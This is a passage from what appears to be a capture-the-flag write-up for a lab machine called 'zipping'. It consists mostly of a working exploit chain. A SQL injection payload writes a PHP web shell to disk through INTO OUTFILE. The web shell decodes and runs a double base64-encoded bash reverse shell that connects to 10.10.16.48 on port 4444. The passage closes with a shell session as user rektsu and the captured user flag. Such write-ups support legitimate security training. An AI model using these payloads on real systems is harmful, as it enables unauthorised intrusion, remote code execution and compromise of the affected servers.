 ```sh
# test trigger SQLi
1%0a'%3bselect+sleep(5)%3b--1
```

```sh
# step 1
# write a revshell
bash -c 'bash -i >& /dev/tcp/10.10.16.48/4444 0>&1'
```

```sh
# step 2
# base64 encode it twice to avoid + 
WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4=
```

```sh
# step 3
# write the php revshell
<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>
```

```sh
# step 4
# payload to pass into burp
1%0a';select '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```


```bash
# step 5
# dont forget to URL encode it and base64 encode the rev shell
# remove the \ in the first <\%3f (it messed up the form)
1%0a'%3bselect+'<\%3fphp+exec("echo+WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4%3d+|+base64+-d+|+base64+-d+|+bash")%3b+%3f>'+into+outfile+'/var/lib/mysql/revshell.php'%3b--1
```


```sh
# our payload unencoded would look like this
# the base64 part is the reverse shell
1%0a'; '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```

We now have our reverse shell as `rektsu` on the machine, next step is to get the user flag.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)

(remote) rektsu@zipping:/var/www/html/shop$ cat ~/user.txt
712dfbfb07cf4871cf4e42e1bb42b1d7
```
